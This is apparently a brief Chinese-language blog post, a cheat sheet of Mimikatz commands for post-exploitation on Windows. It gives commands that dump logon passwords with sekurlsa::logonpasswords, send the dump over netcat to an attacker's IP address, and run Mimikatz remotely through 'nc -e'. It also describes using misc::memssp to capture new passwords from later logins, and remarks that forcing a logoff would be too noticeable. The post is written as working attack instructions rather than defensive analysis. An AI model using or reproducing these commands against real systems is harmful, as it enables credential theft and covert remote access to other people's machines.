 ```yaml
---
id: 250
title: 'Mimikatz   常用'
date: 2018-09-05T10:09:26+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

1.记录 Mimikatz输出：  
`C:\>mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit && dir`  
2.将输出导入到本地文件：  
`C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >> log.txt`  
3.将输出传输到远程机器：  
Attacker执行:  
`E:\>nc -lvp 4444`  
Victim执行:  
`C:\>mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit | nc.exe -vv 192.168.52.1 4444`  
_192.168.52.1 为Attacker IP_

4.通过nc远程执行Mimikatz：  
Victim执行:  
`C:\>nc -lvp 443`  
Attacker执行:  
`E:\>nc.exe -vv 192.168.52.128 443 -e mimikatz.exe`  
_192.168.52.128 为Victim IP_

_若管理员有每过几天就改密码的习惯，但是mimikatz抓取到的密码都是老密码_

<em id="__mceDel"><em>用QuarksPwDump等抓的hash也是老hash，新密码却抓不到的情况下</em></em>

_可以使用以下方法尝试解决_

_privilege::debug  
misc::memssp</p> 

记录的结果在c:\windows\system32\mimilsa.log  
每次验证都会记录  如 锁屏 等  重启失效</em>

_<em id="__mceDel">出现如上问题是因为管理一直没注销过，都是直接断开连接，lsass进程里面还吃存放的老的。</em>_

_也可以直接logoff，但是这样会很明显。_